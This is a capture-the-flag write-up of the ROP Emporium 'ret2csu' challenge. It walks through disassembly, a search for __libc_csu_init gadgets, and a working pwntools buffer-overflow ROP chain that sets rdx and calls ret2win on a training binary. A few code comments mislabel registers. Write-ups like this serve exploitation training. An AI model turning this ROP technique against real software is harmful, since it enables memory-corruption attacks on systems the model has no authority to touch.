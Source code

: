 ```yaml
---
title: "ROP Emporium Ret2CSU Writeup"
date: 2020-01-04T21:28:48+03:00
draft: false
description: Last ROP Emporium callenge - [Ret2CSU](https://ropemporium.com/challenge/ret2csu.html)! This challenge requires a usage of something called Universal Gadget, that will allow us to use three parameters to functions calls, when we do not have any useful gadgets available to us. Our goal is to call the `ret2win` function with `rdx` filled with `0xdeadcafebabebeef`. As mentioned before, the main challenge here is having no gadgets allowing us to directly control `rdx`.
tags:
    - binary-exploitation
    - pwning
    - rop
---
```


Last ROP Emporium callenge - [Ret2CSU](https://ropemporium.com/challenge/ret2csu.html)! This challenge requires a usage of something called Universal Gadget, that will allow us to use three parameters to functions calls, when we do not have any useful gadgets available to us.

Our goal is to call the `ret2win` function with `rdx` filled with `0xdeadcafebabebeef`. As mentioned before, the main challenge here is having no gadgets allowing us to directly control `rdx`.

```bash
pwndbg> checksec
[*] '/home/adamgold/Desktop/ctfs/ret2csu/ret2csu'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

pwndbg> disass main
Dump of assembler code for function main:
   0x00000000004006d7 <+0>:	push   rbp
   0x00000000004006d8 <+1>:	mov    rbp,rsp
   0x00000000004006db <+4>:	mov    rax,QWORD PTR [rip+0x20097e]        # 0x601060 <stdout@@GLIBC_2.2.5>
   0x00000000004006e2 <+11>:	mov    ecx,0x0
   0x00000000004006e7 <+16>:	mov    edx,0x2
   0x00000000004006ec <+21>:	mov    esi,0x0
   0x00000000004006f1 <+26>:	mov    rdi,rax
   0x00000000004006f4 <+29>:	call   0x4005e0 <setvbuf@plt>
   0x00000000004006f9 <+34>:	mov    edi,0x4008c8
   0x00000000004006fe <+39>:	call   0x400590 <puts@plt>
   0x0000000000400703 <+44>:	mov    eax,0x0
   0x0000000000400708 <+49>:	call   0x400714 <pwnme>
   0x000000000040070d <+54>:	mov    eax,0x0
   0x0000000000400712 <+59>:	pop    rbp
   0x0000000000400713 <+60>:	ret
End of assembler dump.
pwndbg> disass pwnme
Dump of assembler code for function pwnme:
   0x0000000000400714 <+0>:	push   rbp
   0x0000000000400715 <+1>:	mov    rbp,rsp
   0x0000000000400718 <+4>:	sub    rsp,0x20
   0x000000000040071c <+8>:	lea    rax,[rbp-0x20]
   0x0000000000400720 <+12>:	mov    edx,0x20
   0x0000000000400725 <+17>:	mov    esi,0x0
   0x000000000040072a <+22>:	mov    rdi,rax
   0x000000000040072d <+25>:	call   0x4005c0 <memset@plt>
   0x0000000000400732 <+30>:	mov    edi,0x4008e1
   0x0000000000400737 <+35>:	call   0x400590 <puts@plt>
   0x000000000040073c <+40>:	mov    edi,0x4008f0
   0x0000000000400741 <+45>:	call   0x400590 <puts@plt>
   0x0000000000400746 <+50>:	mov    edi,0x400924
   0x000000000040074b <+55>:	call   0x400590 <puts@plt>
   0x0000000000400750 <+60>:	mov    edi,0x400925
   0x0000000000400755 <+65>:	mov    eax,0x0
   0x000000000040075a <+70>:	call   0x4005b0 <printf@plt>
   0x000000000040075f <+75>:	mov    eax,0x601018
   0x0000000000400764 <+80>:	mov    QWORD PTR [rax],0x0
   0x000000000040076b <+87>:	mov    eax,0x601028
   0x0000000000400770 <+92>:	mov    QWORD PTR [rax],0x0
   0x0000000000400777 <+99>:	mov    eax,0x601030
   0x000000000040077c <+104>:	mov    QWORD PTR [rax],0x0
   0x0000000000400783 <+111>:	mov    rdx,QWORD PTR [rip+0x2008e6]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x000000000040078a <+118>:	lea    rax,[rbp-0x20]
   0x000000000040078e <+122>:	mov    esi,0xb0
   0x0000000000400793 <+127>:	mov    rdi,rax
   0x0000000000400796 <+130>:	call   0x4005d0 <fgets@plt>
   0x000000000040079b <+135>:	mov    eax,0x601038
   0x00000000004007a0 <+140>:	mov    QWORD PTR [rax],0x0
   0x00000000004007a7 <+147>:	mov    rdi,0x0
   0x00000000004007ae <+154>:	nop
   0x00000000004007af <+155>:	leave
   0x00000000004007b0 <+156>:	ret
End of assembler dump.
```

Looking at the disassembly, this challenge is pretty much the same as earlier challenges. We need to overflow the buffer in `pwnme`, return to `ret2win` BUT change `rdx` first. Let's hunt for gadgets:

```bash
adamgold@adamgold-VirtualBox:~/Desktop/ctfs/ret2csu$ ropper --file ret2csu --search "pop rdx"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdx
```

I tried searching for more rdx-related gadgets but could not find any. After struggling with this for some time, I discovered something I was unfamiliar with - [Universal gadgets](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html).

> \_\_libc_csu_init functions provides a few nice gadgets to load data into certain critical registers. Most importantly EDI, RSI and RDX.

That's perfect! Let's get these gadgets from the disassembly of the file:

```bash
objdump -d ./ret2csu -M intel

0000000000400840 :

400880:    4c 89 fa                 mov    rdx,r15

  400883:    4c 89 f6                 mov    rsi,r14

  400886:    44 89 ef                 mov    edi,r13d

  400889:    41 ff 14 dc              call   QWORD PTR [r12+rbx*8]

  40088d:    48 83 c3 01              add    rbx,0x1

  400891:    48 39 dd                 cmp    rbp,rbx

  400894:    75 ea                    jne    400880

  400896:    48 83 c4 08              add    rsp,0x8

  .........


  40089a:    5b                       pop    rbx

  40089b:    5d                       pop    rbp

  40089c:    41 5c                    pop    r12

  40089e:    41 5d                    pop    r13

  4008a0:    41 5e                    pop    r14

  4008a2:    41 5f                    pop    r15

  4008a4:    c3                       ret
```

This allows us to move r15 into `rdx` - But, then there's a call to `[r12+rbx*8]` and a `cmp` instruction right after. We're going to need to use the second section of gadgets shown above to control `r12` and `rbx`, so these instructions won't get in our way.

Here's another useful quote from the article linked to above:

> To effectively use mov rdx,r13 , we have to ensure that `call QWORD PTR [r12+rbx*8]` doesn't SIGSEGV, `cmp rbx,rbp` equals and most importantly value of `RDX` is not altered.

Also noted in the article is that it's possible to use pointers for the `_init` function, located at `&_DYNAMIC`. That's just what we need for `r12`, as we'll zero `rbx` - `call [_init+0*8]`.

```
pwndbg> x/10gx &_DYNAMIC

0x600e20:    0x0000000000000001    0x0000000000000001

0x600e30:    0x000000000000000c    0x0000000000400560

0x600e40:    0x000000000000000d    0x00000000004008b4

0x600e50:    0x0000000000000019    0x0000000000600e10

0x600e60:    0x000000000000001b    0x0000000000000008

```

`0x600e48` contains an address to `0x00000000004008b4`:

```
pwndbg> x/4i 0x00000000004008b4

   0x4008b4 :    sub    rsp,0x8

   0x4008b8 :    add    rsp,0x8

   0x4008bc :    ret
```

Remember that after the call instruction, the program will again pop all registers until reaching the ret instruction. Also, we have `add rsp, 0x8` meaning we need another dummy in the stack. Also, `rbp` and `rbx` must not be equal (because of the `cmp` instruction)!

### Summing Up

Here's the plan:

-   Call first gadget at `0x0040089a`.
-   Pop all desired values.
-   Register R12 = pointer to `__init` address.
-   Register R15 = `0xdeadcafebabebeef`.
-   Register `RBX = 0x0` while `RBP = 0x01`.
-   Use second gadget at address 0x400880 that will put the values at correct registers.
-   Place the address of ret2win function in the stack.

```python
from pwn import *

ret2win =0x00000000004007b1
rdx_val = 0xdeadcafebabebeef
pop_rbx = 0x000000000040089a
mov_rdx_r15 = 0x0000000000400880
dynamic = 0x600e48

def exploit():
    p = process("./ret2csu")
    pause()

    p.recvrepeat(0.2)

    log.info("sending buffer overflow")

    rop = p64(pop_rbx) # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
    rop += p64(0x0) # rbp=0x0
    rop += p64(1)  # so rbp won't equal rbx (cmp rbp, rbx must be false)
    rop += p64(dynamic) # r12
    rop += p64(0) # r13
    rop += p64(0) # r14
    rop += p64(rdx_val) # r15 - our desired rbp value!
    rop += p64(mov_rdx_r15)  # popping everything again - mov rdx, r15; mov rsi, r14; mov rdi, r13d; call [r12+rbx*8]; add rbx, 0x1; cmp rbp, rbx; jne 400880; add rsp, 0x8;
    rop += p64(0)  # because of add rsp,0x8 padding - this is a dummy
    rop += p64(1)  # rbx
    rop += p64(0)  # rbp
    rop += p64(0)  # r12
    rop += p64(0)  # r13
    rop += p64(0)  # r14
    rop += p64(0)  # r15
    rop += p64(ret2win)

    p.sendline("A" * 40 + rop)

    log.success(p.recvall())


if __name__ == "__main__":
    exploit()

```

```python
adamgold@adamgold-VirtualBox:~/Desktop/ctfs/ret2csu$ python exp.py
[+] Starting local process './ret2csu': pid 2046
2046
[*] sending buffer overflow
[+] Receiving all data: Done (33B)
[*] Process './ret2csu' stopped with exit code -11 (SIGSEGV) (pid 2046)
[+] ROPE{********}
```
